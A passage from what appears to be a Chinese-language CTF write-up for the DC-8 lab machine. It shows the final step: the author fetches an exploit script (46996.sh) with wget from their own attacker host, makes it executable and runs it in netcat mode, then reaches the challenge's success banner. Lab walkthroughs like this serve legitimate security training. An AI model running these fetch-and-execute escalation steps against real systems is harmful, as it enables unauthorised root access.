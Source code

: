 然后下载下来

```
wget http://192.168.124.139:8000/46996.sh
```

里面有使用说明  

![upload successful](https://lnng.top/images/pasted-276.png)

**upload successful**

```
chmod 777 46996.sh
./46996.sh -m netcat
```

![upload successful](https://lnng.top/images/pasted-279.png)

**upload successful**

```
Brilliant - you have succeeded!!!



888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888



Hope you enjoyed DC-8.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.

I'm also sending out an especially big thanks to:

@4nqr34z
@D4mianWayne
@0xmzfr
@theart42

This challenge was largely based on two things:

1. A Tweet that I came across from someone asking about 2FA on a Linux box, and whether it was worthwhile.
2. A suggestion from @theart42

The answer to that question is...

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
